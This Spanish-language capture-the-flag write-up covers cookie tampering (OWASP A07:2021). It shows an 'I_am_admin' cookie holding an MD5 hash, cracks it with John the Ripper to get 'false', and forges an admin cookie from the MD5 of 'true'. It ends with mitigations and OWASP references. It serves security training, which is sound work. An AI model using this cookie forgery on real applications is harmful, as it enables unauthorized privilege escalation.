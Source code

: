 # Cookie Tampering
### A07:2021 – Identification and Authentication Failures

Para la gestión de roles en una aplicación web, es habitual el uso de tokens o cookies para identificar el rol de un usuario.
Si estos tokens no tienen una securización lo suficientemente fuerte, pueden ser objeto de ataques automáticos que permitan la obtención de credenciales o de roles inadecuados para el usuario.

## Ataque

- **Localización**: No definida 

En la parte inicial de reconocimiento, hemos observado que al hacer una petición al servidor, éste nos retorna una cabecera `Set-Cookie` con un 
formato interesante.

```bash

HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Fri, 13 Jun 2025 15:16:20 GMT
Content-Type: text/html
Connection: keep-alive
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Fri, 13-Jun-2025 16:16:20 GMT; Max-Age=3600

```

El id de la cookie nos da a entender que es un tipo de control de roles que autentifica al usuario como administrador, y como valor tenemos una serie de caracteres sospechosamente parecidos a un hash MD5.

Nos guardamos la credencial y lanzamos un john:
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
false            (I_am_admin)     
1g 0:00:00:00 DONE (2025-06-13 15:38) 2.222g/s 2122Kp/s 2122Kc/s 2122KC/s fame4eva..fahimi
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Vemos que el valor hasheado corresponde a **false**. Si probamos a poner como valor a la cookie **b326b5062b2f0e69046810717534cb09**, o true hasheado con md5, y hacemos una petición a la aplicación, nos devuelve la flag.

```bash
echo -n true | md5sum
```

## Mitigación
- No usar MD5 para hashear absolutamente nada relacionado con credenciales.
- Asingación de roles en base a **credenciales de usuario**.
- Uso de nombres de cookies menos descriptivos para obfuscar el flujo de asignación de roles.

## Referencias

- [OWASP: Testing for cookie attributes](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/02-Testing_for_Cookies_Attributes)
- [A07:2021 – Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
